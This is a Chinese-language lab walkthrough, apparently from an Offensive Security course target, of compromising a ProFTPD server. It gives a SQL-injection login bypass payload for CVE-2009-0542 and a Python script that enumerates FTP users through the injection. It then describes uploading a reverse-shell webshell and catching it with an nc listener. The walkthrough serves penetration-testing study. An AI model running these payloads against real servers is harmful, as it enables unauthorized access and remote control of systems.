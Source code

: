 上面第二点信息作者说是通过探针获得的。我不是太懂，之前使用`bob`尝试登录过程中的交互信息如下：

```
220 Welcome to the CorpCom FTP Server.
...
530 Login incorrect
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
```

我猜测最后两句话可能是`ProFTPD`特有的吧。

接下来开始尝试 SQL 注入：

```
# 在输入用户名时输入
%') and 1=2 union select 1,1,uid,gid,homedir,shell from ftpuser; --
# 在输入密码时直接回车
```

成功登入。这说明漏洞存在。

注：经过搜索，我发现这里存在一个漏洞`CVE-2009-0542`，详情见附录一。Youtube上有一个类似的[演示视频](https://www.youtube.com/watch?v=s5EtYRiMf_o)，但是在那个视频中交互信息里明确出现了`ProFTPD 1.3.1`字样。

下一步，要寻找到一个有价值的 FTP 用户，作者希望能够利用 FTP 上传一个`WebShell`。

- Bruteforce

利用以下脚本去穷举有价值的 FTP 用户：

```python
from ftplib import FTP
print "Attempting User Directory Discover Via FTP"
for i in range(0, 6):
    username = "%') and 1=2 union select 1,1,uid,gid,homedir,shell from ftpuser LIMIT " + str(i) + ",1; -- "
    password = str("1")
    ftp = FTP('www.offseclabs.com')
    ftp.login(username, password)
    print "Logged in as user" + str(i) + ",1"
    ftp.retrlines('LIST')
    ftp.close()
```

穷举到第六个用户时发现它的`homedir`映射到了 HTTP 应用的`root目录`（管理员是为了方便吗）。

- 获取 Shell

利用上面获得的 FTP 用户连接到服务器，带反弹 Shell 的 Webshell：

```
put rs.php
```

在本地开`nc`监听，然后命令行`wget`访问 Webshell：

```
nc -lvp 80
wget www.offseclabs.com/rs.php
```
